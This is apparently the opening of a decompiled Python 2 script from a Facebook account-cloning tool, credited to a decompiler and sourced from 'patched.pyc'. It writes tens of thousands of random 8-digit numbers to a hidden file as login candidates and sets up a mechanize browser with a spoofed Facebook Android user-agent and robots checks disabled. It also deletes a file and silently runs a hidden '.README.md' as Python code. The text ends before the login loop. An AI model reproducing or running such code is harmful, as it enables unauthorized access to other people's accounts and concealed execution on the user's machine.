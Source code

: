 
# Decompiled by HTR-TECH | TAHMID RAYAT
# Github : https://github.com/htr-tech
#---------------------------------------
# Auto Dis Parser 2.2.0
# Source File : patched.pyc
# Bytecode Version : 2.7
# Time : Mon Feb  1 07:55:44 2021
#---------------------------------------
#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(98963):

    nmbr = random.randint(11111111, 99999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]
def exb():
	print '[!] Exit'
	os.sys.exit()
